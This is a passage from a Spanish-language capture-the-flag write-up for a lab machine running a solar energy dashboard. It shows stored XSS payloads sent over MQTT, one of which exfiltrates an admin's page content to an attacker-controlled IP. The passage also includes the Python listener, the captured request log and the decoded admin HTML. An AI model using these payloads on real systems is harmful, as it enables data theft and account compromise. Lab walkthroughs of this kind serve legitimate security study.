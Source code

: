 ```json
{
  "solarEnergy": "<img src=x onerror=eval(atob(\/[base64encodeJavascriptCode]\/.source)); />",
  "consumedEnergy": 15
}
```

Vemos que la cookie de sesión está configurada como `HttpOnly`, `Secure` y con la política `SameSite` como `Strict`. No encontramos ningún lugar en el servidor donde se muestren las cabeceras (como el típico `phpInfo();`). Será muy difícil robar la cookie de otro usuario, pero podemos intentar visualizar lo que él está viendo, ya que las cabeceras CSP no están configuradas.

Según las conversaciones del foro `www.sunfriends.nyx`, es muy posible que el usuario `JulianAdm` esté visualizando el Dashboard.

Levantamos un servidor en el puerto 80 con Python:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y enviamos el siguiente `JSON` mediante `MQTTX` al topic `data` con nuestra dirección IP:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?url='+encodeURIComponent(window.location.href)+'&code='+btoa(document.body.outerHTML);})();\"; />",
  "consumedEnergy": 15
}
```

Recibimos al menos dos peticiones en nuestro servicio HTTP en el puerto 80, una desde nuestra IP y otra desde la IP de la máquina.

```bash
192.168.1.168 - - [03/Sep/2024 00:18:34] "GET /?url=https%3A%2F%2Fwww.solar.nyx%2Fdashboard.php&code=PGJvZHk+CiAgICA8ZGl2IGNsYXNzPSJkYXNoYm9hcmQiPgogICAgICAgIDxvYmpl ... ZW50LmdldEVsZW1lbnRCeUlkKCdzZW5kLXJlY29yZC1pZCcpLm9uY2xpY2sgPSBzZW5kcmVjb3JkOwogICAgCiAgICA8L3NjcmlwdD4KCgo8L2JvZHk+ HTTP/1.1" 200 -
```

Si descodificamos el base64, obtendremos el siguiente código:

```html
<body>
    <div class="dashboard">
        <object class="solar-icon" data="sun.svg" type="image/svg+xml" style="width:75px;"></object>
        <h1>Solar Energy Dashboard</h1>
        <div class="user-info" id="userInfo"><span>JulianAdm</span><br>admin</div>
        <canvas id="energyChart" class="energy-chart" width="400" height="200" style="display: block; box-sizing: border-box; height: 200px; width: 400px;"></canvas>
        <div class="energy-label"><span class="solar-title">Solar:</span> <span id="solarEnergyLabel" class="energy-value solar"><span class="energy-value solar"><img src="x" onerror="(async () => {location.href='http://192.168.1.116?url='+encodeURIComponent(window.location.href)+'&amp;code='+btoa(document.body.outerHTML);})();" ;=""> kWh</span></span></div>
        <div class="energy-label"><span class="consumed-title">Consumed:</span> <span id="consumedEnergyLabel" class="energy-value consumed"><span class="energy-value consumed">15 kWh</span></span></div>
        <div class="energy-label"><span class="grid-title">Grid:</span> <span id="gridEnergyLabel" class="energy-value grid-positive"><span class="energy-value grid-positive">NaN kWh</span></span></div>
        <a href="/logout.php" class="logout-link" id="logoutLink">Logout</a>
                    <a href="/records/" class="logout-link">Records</a>
            <a href="#" class="logout-link" id="send-record-id">Send record</a>
            </div>

    <!--<script src="/mqtt.min.js"></script>-->
    
```